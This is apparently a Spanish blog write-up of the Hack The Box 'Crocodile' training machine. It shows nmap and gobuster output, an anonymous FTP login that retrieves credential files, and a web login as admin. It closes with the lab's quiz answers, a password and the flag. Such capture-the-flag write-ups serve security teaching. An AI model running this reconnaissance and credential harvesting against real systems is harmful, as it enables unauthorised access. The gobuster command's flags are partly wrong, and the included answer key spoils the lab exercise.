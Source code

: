 ```yaml
---
title: HTB - Crocodile
date: 2022-06-21
categories: [Hack The Box, Starting Point]
tag: [Web, Sql, Starting Point - Tier 2]
img_path: /assets/img/htb/crocodile
image:
   path: crocodile.png
   width: 321
   height: 170
---
```

<h2 style="color:#74b4f4">Escaneo</h2>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap 10.129.79.250 -sC -sV -v

-sC: empleamos scripts predeterminados en el escaneo
```

Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 02:02 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.79.250
Host is up (0.42s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-favicon: Unknown favicon MD5: 1248E68909EAE600881B8DB1AD07F356
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

NSE: Script Post-scanning.
Initiating NSE at 02:03
Completed NSE at 02:03, 0.00s elapsed
Initiating NSE at 02:03
Completed NSE at 02:03, 0.00s elapsed
Initiating NSE at 02:03
Completed NSE at 02:03, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.95 seconds
```

Existen 2 puertos abiertos en la máquina objetivo, el puerto 80 corriendo un servidor web Apache y el puerto 21 corriendo un servidor ftp. Primero vamos a visitar el servidor web a través del navegador.

![](Pasted image 20220427025211.png)

Navegando por la página no pude encontrar un formulario, así que vamos a utilizar la herramienta <b style="color:#800000">gobuster</b> que utiliza <b style="color:#800000">brute-forcing</b> para descubrir directorios y archivos en un servidor web.

```console
gobuster -u {target ip} -w /usr/share/wordlists/directory-list-2.3-small.txt -w php 
-t 100
```

Utilizarémos <b style="color:#800000">directory-list-2.3-small.txt</b> para realizar un descubrimiento más rápido y especificaremos que busque además archivos <b style="color:#800000">php</b>.

```console
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.10.63
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/04/27 03:01:47 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 313] [--> http://10.129.10.63/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.10.63/css/]   
/js                   (Status: 301) [Size: 309] [--> http://10.129.10.63/js/]    
/logout.php           (Status: 302) [Size: 0] [--> login.php]                    
/config.php           (Status: 200) [Size: 0]                                    
/fonts                (Status: 301) [Size: 312] [--> http://10.129.10.63/fonts/] 
/dashboard            (Status: 301) [Size: 316] [--> http://10.129.10.63/dashboard/]
```

Hemos descubierto un archivo llamado <b style="color:#800000">login.php</b>, ahora tenemos un vector de ataque para obtener la bandera.

<h2 style="color:#74b4f4">Ganando Acceso (Admin)</h2>
---
![](Pasted image 20220427030623.png)

![](Pasted image 20220427030556.png)

Podemos intentar una SQL Injection pero gracias al escaneo realizado previamente podemos ver que dentro del servidor <b style="color:#800000">ftp</b> hay dos archivos que pueden contener usuarios y sus respectivas contraseñas para iniciar sesión correctamente.
Accedemos al servidor ftp de manera anónima, descargamos los archivos y vemos su contenido.

```console
ftp {target ip}
```

```console
Connected to 10.129.10.63.
220 (vsFTPd 3.0.3)
Name (10.129.10.63:epsylon): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43390|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47042|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |*****************************************************************************|    33        0.20 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.04 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||46268|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |*****************************************************************************|    62        0.38 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.09 KiB/s)
```

![](Pasted image 20220427031617.png)

![](Pasted image 20220427031638.png)

Ingresamos el usuario <b style="color:#800000">admin</b> y su contraseña <b style="color:#800000">rKXM59ESxesUFHAd</b> en el formulario.

![](Pasted image 20220427032028.png)

![](Pasted image 20220427031940.png)


<h2 style="color:#74b4f4">Preguntas</h2>
---
1. ¿Qué interruptor de escaneo nmap emplea el uso de scripts predeterminados durante un escaneo?

	<b style="color:#8B2F97">-sC</b>

2. ¿Qué versión de servicio se encuentra ejecutándose en el puerto 21?

	<b style="color:#8B2F97">vsftpd 3.0.3</b>

3. ¿Qué código FTP se nos devuelve para el mensaje "Inicio de sesión FTP anónimo permitido"?

	<b style="color:#8B2F97">230</b>

4. ¿Qué comando podemos usar para descargar los archivos que encontramos en el servidor FTP?

	<b style="color:#8B2F97">get</b>

5. ¿Cuál es uno de los nombres de usuario que suenan con mayor privilegio en la lista que recuperamos?

	<b style="color:#8B2F97">admin</b>

6. ¿Qué versión de Apache HTTP Server se está ejecutando en el host de destino?

	<b style="color:#8B2F97">2.4.41</b>

7. ¿Cuál es el nombre de un útil complemento de análisis de sitios web que podemos instalar en nuestro navegador?

	<b style="color:#8B2F97">Wappalyzer</b>

8. ¿Qué interruptor podemos usar con gobuster para especificar que estamos buscando tipos de archivo específicos?

	<b style="color:#8B2F97">-x</b>

9. ¿Qué archivo hemos encontrado que pueda proporcionarnos un punto de apoyo en el objetivo?

	<b style="color:#8B2F97">login.php</b>

**Root Flag:** <b style="color:#FF8B00">c7110277ac44d78b6a9fff2232434d16</b>
	
![](Pasted image 20220427022458.png)
